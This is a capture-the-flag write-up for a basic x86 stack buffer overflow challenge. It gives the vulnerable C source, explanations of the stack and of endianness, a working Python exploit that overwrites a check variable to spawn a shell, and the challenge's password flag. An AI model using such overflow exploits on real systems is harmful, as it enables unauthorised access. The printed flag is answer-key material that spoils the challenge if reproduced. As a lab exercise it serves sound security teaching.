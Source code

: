 # ELF x86 - Stack buffer overflow basic 1

### Source code

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

* The program first sets up a `check` variable with the value `0x04030201`.
* The program then sets up a buffer of 40 bytes.
* It then uses the `fgets` to take user input.

### fgets()

```c
char fgets(char s, int size, FILE stream);
```

* As we can see it takes 3 arguments.
  1. The first argument is the location where the input is supposed to be read to which is the buffer in our case.
  2. The second argument is the maximum number of bytes to be read being 45.
  3. The third argument is where the data us read from which is the STDIN in our case.
* Lastly it has two conditional statements:
  1. The first conditional executes if we replace the original value of the `check` variable with anything other than `0xdeadbeef`.
  2. The second conditional executes if we replace the original value of the `check` variable with `0xdeadbeef`.
* Let's provide 40 `a` and 4 `b` characters as input.

```
$ python -c 'print "a"*40 + "b"*4' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[check] 0x62626262

You are on the right way!
```

* We can see that `check` was set to `bbbb` which is `0x62626262` in hexadecimal which caused first conditional statement to be executed.

### Stack

```
+---------------+ 
|  61 61 61 61  | <====== buffer (40 bytes)
|  61 61 61 61  | 
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
|  61 61 61 61  |
+---------------+
|  62 62 62 62  | <====== check
+---------------+
```

* We want to set the `check` variable to `0xdeadbeef`. However before we do that we need to understand the concept of endianness.

### Big endianness

```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   de   |   ad   |   be   |   ef   |
+--------+--------+--------+--------+
```

* The LSB is stored in the high memory address (`0x1340`) while the MSB is stored in the low memory address (`0x1337`).
* This is the format in which humans write numbers.

### Little endianness

```
+--------+--------+--------+--------+
| 0x1337 | 0x1338 | 0x1339 | 0x1340 |
+--------+--------+--------+--------+
|   ef   |   be   |   ad   |   de   |
+--------+--------+--------+--------+
```

* The LSB is stored in the low memory address (`0x1337`) while the MSB is stored in the high memory address (`0x1340`).
* This is the format in which machines store data. This is the relevant format for our level.

### Exploit

* Now we are ready to craft our exploit.

```
$ python -c 'print "a"*40 + "\xef\xbe\xad\xde"' | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```

* So the shell is closing immediately. In order to complete the exploit we need the shell to stay open.
* We can use the `cat` command to keep the shell open.

```
$ (python -c 'print "a"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13

[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
```

* We know that the password is in the `HOME/.passwd` file. All we have to do now is to `cat` it.

```
cat .passwd
1w4ntm0r3pr0np1s
```

### Password

```
1w4ntm0r3pr0np1s
```
